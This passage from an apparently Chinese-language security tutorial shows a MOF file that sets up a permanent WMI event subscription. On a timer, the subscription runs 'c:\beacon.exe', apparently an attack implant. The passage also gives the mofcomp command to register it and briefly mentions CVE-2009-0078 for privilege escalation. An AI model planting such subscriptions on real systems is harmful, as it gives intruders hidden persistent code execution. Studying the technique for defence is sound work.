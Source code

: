 > ***注意**：笔者在测试Mof文件添加事件时，编译后的确能够正常添加事件，但是未能执行指定命令。*

```
#PRAGMA NAMESPACE ("\\\\.\\root\\subscription")
instance of CommandLineEventConsumer as $Cons
`{`
    Name = "test1comsumer";
    RunInteractively=false;
    CommandLineTemplate="cmd.exe /c c:\beacon.exe";
`}`;

instance of __EventFilter as $Filt
`{`
    Name = "test1filter";
    EventNamespace = "root\\cimv2";
    Query ="SELECT * FROM __TimerEvent  WITHIN 10 WHERE TimerID = 'test1filter'";
    QueryLanguage = "WQL";
`}`;

instance of __FilterToConsumerBinding
`{` 
     Filter = $Filt;
     Consumer = $Cons;
`}`;
```

编译

```
mofcomp.exe wmi.mof
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t014873d7f9bab1206f.png)

事件添加成功

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01afe1a6186efed407.png)

**<a class="reference-link" name="%E6%9C%AC%E6%96%87%E5%8F%82%E8%80%83%E6%96%87%E7%AB%A0%EF%BC%9A"></a>本文参考文章：**

[WMI](https://github.com/AxelPotato/WMI)



## WMI利用（权限提升）

### <a class="reference-link" name="%E8%AE%B2%E5%9C%A8%E5%89%8D%E9%9D%A2%EF%BC%9A"></a>讲在前面：

WMI用作权限提升这一块笔者能力有限，未能搜集到更多的信息，只发现一个较为原始的漏洞CVE-2009-0078漏洞，较为原始，能力有限，不做细致分析。
